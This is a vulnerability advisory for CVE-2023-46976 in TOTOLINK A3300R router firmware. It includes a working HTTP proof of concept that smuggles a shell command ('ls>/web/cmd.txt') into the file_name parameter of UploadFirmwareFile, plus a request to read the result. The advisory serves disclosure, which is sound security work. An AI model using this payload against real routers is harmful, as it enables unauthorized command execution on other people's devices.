






# TOTOLINK A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Product: TOTOLINK A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html



## Vulnerability Description

The `file_name` parameter of `UploadFirmwareFile` in `cstecgi.cgi` is controllable, and there is no verification of the input `file_name` parameter. When any error is triggered, the `file_name` parameter will be spliced into the rm- rf command and executed, which will eventually lead to command injection.

### POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 113
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/advance/config.html?time=1698345756457
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"file_name": "1|ls>/web/cmd.txt","content_length":"100","topicurl":"UploadFirmwareFile","token":"1234"}
```

injection the command "ls>/web/cmd.txt"



check the result

```http
GET /cmd.txt HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
If-Modified-Since: Thu, 26 Oct 2023 19:47:12 GMT
Connection: close
```



## Analyse

`sub_413700`will handle the `UploadFirmwareFile` request, this function firstly gets `file_name` value from the request body, and then pass to `CsteSystem` function.





`CsteSystem` wraps the command and then passes it to execv to execute the command.



## CVE-2023-46976